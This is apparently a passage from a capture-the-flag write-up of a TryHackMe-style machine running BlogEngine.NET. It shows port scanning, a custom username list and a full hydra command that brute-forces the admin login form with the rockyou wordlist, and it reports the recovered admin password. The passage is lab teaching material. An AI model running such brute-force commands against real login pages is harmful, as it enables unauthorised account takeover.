 <div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010184433.png' | relative_url }}" text-align="center"/>
</div>

At first, the port 5985 appears to be a web server but a more detailing port scanning over that port reveals that is indeed a WinRM server:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010184440.png' | relative_url }}" text-align="center"/>
</div>

So we proceed to investigate the web page and we find that the page have a comment of *Visitor1*, is a tribute to the clown *Penywise* and thta have a login section:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010184706.png' | relative_url }}" text-align="center"/>
</div>

The credentials by default of blogengine.net (admin:Passw@rd123) doesn't work, thus is a personalizated user. We are going to use a personalizate list of users:

```default
Admin
admin
penywise
Penywise
user
User
Visitor1
```

An we use this list in the following command:

```bash
hydra -L /root/list.txt -P /usr/share/wordlists/rockyou.txt 10.10.128.134 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=nYpNLTHl95RuU%2BKXvciUT84uGaVvolqEnuw1Ts%2F8AX6IpGI4dlV%2BQY5Hhac3%2FRDvXeUVpELH90g4gPMKngsgCG6NaSDIsEWZOnhd9%2B37MJwQDSkDUVenDUj3QEoOZGJsOp47f0DiBvcSxmBVJlRUNVrmYIBIwlXPqGFvNFffah9FkTfj6FFncz6Aw2oRXzPx2iPOX0YFTCW3Sw0itLGZFkoXoIbKK%2BmZ5k%2BLhmxqloj6Det8Nfa7ZBuulX6Ukxwc3%2FyBpfRaopkvFzfyonu28sWMpv8Sg%2BwsFLeEOBh7XYLhcw4pk0Pv7GpFXbVLilfQhTVUb0Yk5eJy9HXqrhoZ2oghKGdiKFhBS2ynDt0E%2BJKTjNJ%2F&__EVENTVALIDATION=HITidSBLCMzLDxHqA6sSqgn8YHNMwAI%2B4C25XFeNg%2Bce7maOnXO36yE%2BNMUJTfzKopHG1A2q819p7LpXLJ1u%2BZYm0hWhlH35Gykgut6sw%2BJ%2FSQ2yX%2BpjXyhFiOPmiyWVOiGR%2B0sep%2Fp3h%2B6dvowJ5noK0JXpUB8jh6%2FuZ4c97LN3vKH7&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

The process of the built of the command above is described in the Alfred machine. And then we have this result:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010190901.png' | relative_url }}" text-align="center"/>
</div>

And ike this we can login to the machine as admins with the credentials "admin:1qaz2wsx". Then, we inspect the web as admin and found the file /admin/about.cshtml in which appears a brief description of the webserver:
